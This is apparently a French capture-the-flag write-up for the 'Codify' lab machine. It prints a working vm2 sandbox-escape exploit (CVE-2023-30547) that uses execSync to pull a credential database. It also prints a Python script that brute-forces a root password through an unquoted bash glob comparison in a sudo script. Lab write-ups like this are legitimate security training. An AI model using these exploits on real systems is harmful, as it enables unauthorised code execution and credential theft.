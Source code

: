 # Write-Up Codify
![image](img/Codify.png)
## Nmap
![image](img/nmap.png)
Trois services nous sont accessibles :
- 22 : serveur SSH OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
- 80 : Apache httpd 2.4.52
- 3000 : Node.js Express framework
OpenSSH et Apache semblent tous les deux à jour. Le 3ème port présent nous indique que l'application web est écrite en NodeJS.

## FootHold
L'application Web nous permet de tester notre code directement dans une VM et d'en afficher la sortie. Pour cela il repose sur la librairie vm2. Cette librairie a récemment eu une CVE. La `CVE-2023-30547` affectant les versions 3.9.19 et antérieures. Il est donc possible d'exécuter directement du code sur la machine. Suite à cela et après plusieurs essais, il est possible de trouver et d'extraire une base de données à cet endroit : `/var/www/contact/tickets.db`. Pour cela la rédaction d'un petit code est nécessaire :
```javascript
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync("base64 ../../var/www/contact/tickets.db");
}
`

console.log(vm.run(code));
```
Afin de se prémunir des caractères non affichables je décide de l'exporter en base64. Il est ensuite possible de décoder le base64 en local et de lire la base. On s'aperçoit de la présence d'une table users avec une seule entrée.  
![image](img/users_table.png)

La prochaine étape consiste à brute-force le mot de passe de l'utilisateur joshua à l'aide de hashcat pour se faire :  
![image](img/hashcat.png)

Et le résultat :   
![image](img/hashcat_show.png)

Il est possible d'utiliser le password de joshua pour se connecter en SSH sur la machine.
![image](img/id_joshua.png)

## PrivEsc
Pour la partie PrivEsc, joshua a le privilège d'exécuter un script en root :
![image](img/joshua_sudo_l.png)

Le script en question :
```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```
Le script permet de réaliser des backups des différentes bases de données. La vulnérabilité ici est présente au niveau de la comparaison `[[ $DB_PASS == $USER_PASS ]]`. les variables n'étant pas entre des doubles quotes `"`, il est possible d'utiliser le glob matching pour faire corresponde les mots de passe. Il est donc possible de brute-force le mot de passe caractère par caractère avec un script.

```python
import string
import subprocess

wl = string.ascii_letters + string.digits
cont=""

while True:
    for i in wl:
        password = cont + i + "*"
        proc = subprocess.Popen(
            ["sudo", "/opt/scripts/mysql-backup.sh"],
            stdin=subprocess.PIPE,
            stdout=subprocess.PIPE,
            stderr=subprocess.PIPE,
            text=True
            )

        stdout, stderr = proc.communicate(input=password)

        if "Done!" in stdout:
            cont += i
            print(cont)
```

Enfin on peut utiliser ce mot de passe pour se connecter en tant que root sur la machine.
![image](img/id_root.png)